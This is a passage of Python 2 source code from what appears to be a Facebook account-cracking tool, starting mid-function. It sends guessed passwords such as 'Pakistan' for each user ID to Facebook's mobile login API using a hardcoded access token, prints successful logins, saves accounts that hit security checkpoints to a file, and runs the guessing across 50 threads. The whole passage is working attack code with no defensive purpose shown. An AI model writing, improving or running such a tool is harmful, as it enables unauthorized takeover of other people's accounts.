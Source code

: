															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print '\x1b[1;32mSuccessful\x1b[1;32m \x1b[1;32m¦\x1b[1;32m ' + user + ' \x1b[1;32m¦\x1b[1;32m ' + pass7	
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;97mCheckpoint\x1b[1;97m \x1b[1;97m¦\x1b[1;97m ' + user + ' \x1b[1;97m¦\x1b[1;97m ' + pass7	
																	cek = open("out/checkpoint.txt", "a")
                                                                                                                                        cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
															
		except:
			pass
		
	p = ThreadPool(50)
	p.map(main, id)
	print "\033[1;97m---------------------------------------------------"
	
	print '\033[1;97mProcess Has Been Completed.'
	print"\033[1;97m-----------------"
	print"\033[1;97mTotal OK/\x1b[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;97m/\033[1;97m"+str(len(cekpoint))
	print "\033[1;97m---------------------------------------------------"
	
	
	raw_input("\n\033[1;93m[\033[1;96mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()
